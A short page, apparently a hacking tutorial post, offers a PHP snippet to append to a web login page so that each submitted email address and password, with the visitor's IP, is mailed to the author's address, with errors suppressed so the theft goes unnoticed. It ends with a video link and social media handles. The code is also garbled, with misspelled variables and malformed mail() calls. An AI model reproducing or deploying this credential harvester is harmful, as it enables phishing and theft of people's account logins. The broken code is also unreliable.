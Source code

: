 $ip = getenv("Remote_ADR");< Use This Code, If You Use Proxy or VPN
$message .= " Email Adresse  : "
.$_POST['email'] . "\n"; 
$message .= " Password  : " 
.$_POST['password'] . "\n";
$send = "emailkamu";
$subject = "salmin.org $ip";
$from = "From: backdoor admin login <salmin.org>";
$from .= "-spammer\n";
mail ($send, $subject, $message, from);
mail ($message, $subject, rnessage);
?> 

use this code at the end of the php code.
And Dont Forget Add Code in under <? php : error_reporting(0); 

If You still do not understand, can Watching in Youtube link : https://www.youtube.com/watch?v=_9_sELFW8Aw .
Dont Forget Follow Me in Instagram , Facebook, Twitter : @anandarauf(Instagram) @Ananda_Rauf(Twitter) https://www.facebook.com/MrvKun02
Dont Forget Add Friends In Linkend : sergentrauf@yahoo.com (Ananda Rauf Maududi)